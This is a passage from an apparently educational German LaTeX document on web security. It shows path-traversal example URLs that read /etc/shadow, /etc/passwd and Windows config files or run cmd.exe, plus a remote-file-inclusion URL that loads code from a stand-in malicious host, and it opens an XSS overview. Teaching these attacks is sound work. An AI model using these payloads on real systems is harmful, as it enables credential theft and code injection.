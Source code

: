 \subsubsection{Beispiele}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, das einem diese Schwäche ermöglicht lokale Passwörter auszulesen und Windows Configs.  
\\ \\
Unter Linux ist diese Schwäche kritischer da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Directory bewegen, wo sich die Website befindet.
\\ \\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese code einzufügen mit dem man sich noch mehr Möglichkeiten verschafft. \\ \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}
\subsubsection{Protection Path-Traversal}
\subsubsection{XSS Protection}
\label{sec:xss}
\subsubsection{Allgemeines über XSS}
XSS steht für Cross-Site-Scripting und ist eine Security schwäche, welche es ausnutzt das eine Webadmin nicht davon ausgeht das eine gewisse Eingabe getätigt wird. Meist nutzt ein Hacker diese Schwäche um einen bösartigen Code auszuführen, zu Beispielen werden wir später noch kommen. Trotz dem hohen Bekanntheitsgrad von XSS und findet man Cross-Site-Scripting immer noch aus der OWASP Top 10, welche die häufigsten Security Vulnerabilities Jahr für Jahr auflistet. Bei dem ausnutzen von XSS greift man sein 'Opfer' nicht direkt an, sondern man nutzt diese Schwachstelle, um bspw. ein bösartiges Skript zu platzieren, welches dann von einem nichts ahnenden User aufgerufen wird. 

